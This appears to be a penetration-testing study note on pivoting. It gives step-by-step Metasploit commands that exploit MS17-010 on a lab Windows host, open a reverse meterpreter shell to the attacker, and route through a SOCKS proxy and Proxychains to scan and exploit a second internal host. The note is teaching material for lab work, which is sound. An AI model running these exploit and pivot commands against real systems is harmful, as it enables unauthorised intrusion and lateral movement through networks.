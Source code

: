 

````markdown
# 🔐 Pivoting, SOCKS Proxy, and Proxychains in Penetration Testing

This note is a **complete reference** for pivoting in penetration testing using Metasploit, SOCKS Proxy, and Proxychains.  
It includes **commands**, **concept explanations**, and a **step-by-step workflow**.  

---

## 🚀 Quick Reference Commands

### Metasploit
```bash
# Exploit Target1
msfconsole
search ms17-010
use exploit/windows/smb/ms17_010_psexec
set payload windows/x64/meterpreter/reverse_tcp
set RHOST 192.168.0.117
set SMBUSER forensic
set SMBPASS admin
set LHOST 192.168.0.139
set LPORT 6622
exploit

# Add Route for Pivoting
use post/multi/manage/autoroute
set SESSION 1
run
route

# Start SOCKS Proxy
use auxiliary/server/socks_proxy
run
jobs
````

### Proxychains

```bash
# Edit config file
mousepad /etc/proxychains4.conf

# Example changes
dynamic_chain
# strict_chain
socks5 127.0.0.1 1080

# Use proxychains with tools
proxychains nmap -p 139,445 -sT -n -Pn 192.168.205.106
proxychains msfconsole
```

---

## 🧩 Concepts

### Pivoting

* **Definition**: Using a compromised machine as a bridge to reach other machines in a restricted/internal network.
* **Purpose**: Gain access to systems that are not directly reachable from the attacker’s machine.

---

### Routing Table in Metasploit

* The `autoroute` module adds a route through a Meterpreter session to an internal subnet.
* **Limitation**: This route is only available inside Metasploit. External tools like `nmap` cannot use it directly.
* **Why Important**: Required to inform Metasploit how to reach the internal network.

---

### SOCKS Proxy

* **Definition**: A generic proxy protocol (SOCKS5 in this case) that forwards network traffic through an intermediary host.
* **In Practice**:

  * Metasploit runs a SOCKS proxy on `127.0.0.1:1080`.
  * Any traffic sent to this proxy is routed via the compromised host (`Target1`) into the internal network.
* **Why Important**: Extends pivoting beyond Metasploit to all external tools.

---

### Proxychains

* **Definition**: A Linux tool that forces any program to send its network connections through one or more proxies.
* **In Practice**:

  * Configured to use the SOCKS proxy created by Metasploit.
  * Ensures that tools like `nmap`, `msfconsole`, or `sqlmap` can reach internal targets via the compromised host.
* **Why Important**: Enables pivoting for tools outside Metasploit.

---

### Strict Chain vs Dynamic Chain

* **Strict Chain**: All proxies must be used in the exact order listed. If one fails, the connection fails.
* **Dynamic Chain**: Proxies are used in order but skipped if unavailable. More flexible and reliable.
* **Dead Proxy**: A non-functional proxy (e.g., offline or blocked). Skipped automatically in dynamic mode.

---

## 🖥️ Network Setup

* **Attacker (Kali Linux)**

  * IP: `192.168.0.139`

* **Target1 (Windows 10 - Compromised Pivot)**

  * External: `192.168.0.117`
  * Internal: `192.168.205.105`

* **Target2 (Windows 10 - Internal Only)**

  * Internal: `192.168.205.106`

---

## 🔍 Full Walkthrough

### Step 1: Compromise Target1

```bash
msfconsole
search ms17-010
use exploit/windows/smb/ms17_010_psexec
set payload windows/x64/meterpreter/reverse_tcp
set RHOST 192.168.0.117
set SMBUSER forensic
set SMBPASS admin
set LHOST 192.168.0.139
set LPORT 6622
exploit
```

* Establishes a Meterpreter session on Target1.

---

### Step 2: Add Routing Table

```bash
use post/multi/manage/autoroute
set SESSION 1
run
route
```

* Adds a route for the internal network through Target1.
* Only usable inside Metasploit at this stage.

---

### Step 3: Start SOCKS Proxy

```bash
use auxiliary/server/socks_proxy
run
jobs
```

* Starts a SOCKS proxy on `127.0.0.1:1080`.
* Makes the internal route available for external tools.

---

### Step 4: Configure Proxychains

```bash
mousepad /etc/proxychains4.conf
```

Edit as follows:

```text
dynamic_chain
# strict_chain
socks5 127.0.0.1 1080
```

* Ensures Proxychains will use the Metasploit SOCKS proxy.

---

### Step 5: Scan and Exploit Target2

```bash
proxychains nmap -p 139,445 -sT -n -Pn 192.168.205.106
```

* Runs Nmap through Proxychains to scan Target2.

```bash
proxychains msfconsole
search ms17-010
use exploit/windows/smb/ms17_010_psexec
set PAYLOAD windows/x64/meterpreter/bind_tcp
set RHOST 192.168.205.106
set SMBUSER forensic
set SMBPASS admin
set LPORT 6644
exploit
```

* Exploits Target2 through the pivot.

---

## 📊 Traffic Flow Diagram

```text
   [ Kali Linux ]
        |
        | Proxychains → SOCKS5 (127.0.0.1:1080)
        |
   [ Target1 (Compromised Pivot) ]
        |
        | Internal network (192.168.205.0/24)
        |
   [ Target2 (Internal Only) ]
```

---

## ✅ Summary

* **Pivoting**: Expands access from one compromised host to hidden internal hosts.
* **Routing Table**: Provides Metasploit-only pivoting.
* **SOCKS Proxy**: Extends pivoting to external tools.
* **Proxychains**: Forces applications to use the SOCKS proxy.
* **Strict vs Dynamic Chain**: Proxychains modes for handling multiple proxies.
* **Dead Proxy**: A non-functional proxy skipped in dynamic mode.

👉 Workflow:

1. Compromise Target1.
2. Add route in Metasploit.
3. Start SOCKS proxy.
4. Configure Proxychains.
5. Scan and exploit Target2 with any tool.

---
